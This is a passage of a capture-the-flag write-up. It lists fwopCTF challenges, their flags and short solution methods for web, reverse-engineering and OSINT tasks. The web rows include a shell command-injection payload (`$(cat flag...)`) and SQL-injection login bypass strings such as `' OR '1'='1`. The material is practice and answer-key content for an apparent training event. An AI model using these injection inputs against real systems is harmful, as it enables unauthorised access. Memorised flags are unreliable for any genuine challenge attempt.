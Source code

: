 | 53Cr37 8r0W53r (400)       | fwopCTF{secret_browser_007} | [Link](https://web.fweefwop.club/cookie.php) Inspect -> More tools -> Network conditions -> User agent A3SECRET or `curl https://web.fweefwop.club/agent.php -H 'user-agent: A3SECRET'` |
| KevinSay (400)                    | fwopCTF{C0MM4ND1NDJ3C710N11}                   | [Link](http://web.fweefwop.club:8401/) `$(ls)` `$(cat flag193290.txt)` |
| weird requests huh (400)          | fwopCTF{what_does_put_even_do??} | [Link](https://web.fweefwop.club/requests.php) `curl -X PUT https://web.fweefwop.club/requests.php` |
| SQLI (500)                        | fwopCTF{Leaked_data_123}                       | [Link](http://web.fweefwop.club:8400/login.php) [SQL Injection](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) username and password: `'--` or `' OR '1'='1` |
| SQLI But Filtered? (600)          | fwopCTF{f1lt3rs_not_good_3n0ugh}               | [Link](http://web.fweefwop.club:8402/login.php) (can't have injection start with `'`) username and password: `-'` |


## 06 Reverse
|             Challenge             |                            Flag                            |                               Method                               |
| --------------------------------- | ---------------------------------------------------------- | ------------------------------------------------------------------ |
| Reversing Python 1 (100)          | fwopCTF{no_python_required}                                | `cat Reverse1.py`                                                  |
| Reversing Python 2 (150)          | fwopCTF{perhaps_this_is_the_flag}                          | `cat Reverse2.py`                                                  |
| Reversing Python 3 (175)          | fwopCTF{see_seesaw_sheshore_see_sheshore_seasells_shells}  | `cat Reverse3.py`                                                  |
| Reversing Python 3 Bonus (250)    | fwopCTF{a505d061c2baf118fce231d8bfc7c1cbad34ccf7f2ed2c4b8b8c675c235fd744}  | `grep -E 'kaq8h|nw91' Reverse3EXTRA.py`            |
| Reversing Python 4 (250)          | fwopCTF{then_if_then_else_if_if}                           | Paste code into python terminal                                    |
| Reversing Python 5 (275)          | fwopCTF{bonucleicryxriluoxe}                               | Paste code into python terminal                                    |
| Reversing Python 6 (300)          | fwopCTF{also_crypto_lol}                                   | Paste code into python terminal                                    |
| Reversing Python 7 (350)          | its_time_t;qfwopCTF{                                       | String starts at index 12 and ends at ; and is 20 length           |
| Fwop Door (500)                   | fwopCTF{quite_a_long_flag_for_reverse_eng_dont_you_think_so} | `python3 fwop_door.py`                                           |
| Reversing Python 8 (500)          | fwopCTF{arrays_hold_things}                                | Brute force character by character                                 |

## 07 OSINT
|             Challenge             |                Flag                |                               Method                               |
| --------------------------------- | ---------------------------------- | ------------------------------------------------------------------ |
| A street named what? (100)        | fwopCTF{Pruneridge}                | 3896 Pruneridge Ave                                                |
| Where is everybody? (100)         | fwopCTF{Valencia} | https://www.ladbible.com/community/viral-time-traveller-from-2027-visits-mcdonalds-after-human-extinction-20210514 |
| Kevin Gaming (200)                | fwopCTF{ps2}                       | [Twitter](https://twitter.com/TheCoolerKevin_) Follow him on twitter to get birth year |
| Kevin Took The Flag (250)         | fwopCTF{wayback_machine_doesn't_let_me_play_club_penguin_again_D:} | [Twitter](https://twitter.com/TheCoolerKevin_) Wayback Machine |
| Location Location Location (200)  | fwopCTF{Kinshasa}                  | (-4.396,15.317)                                                    |
| Kevin's secret (275)              | fwopCTF{h1dd3n_1n_7h3_h1570ry_28934} | Go to the forked repo, see last commit edit                      |
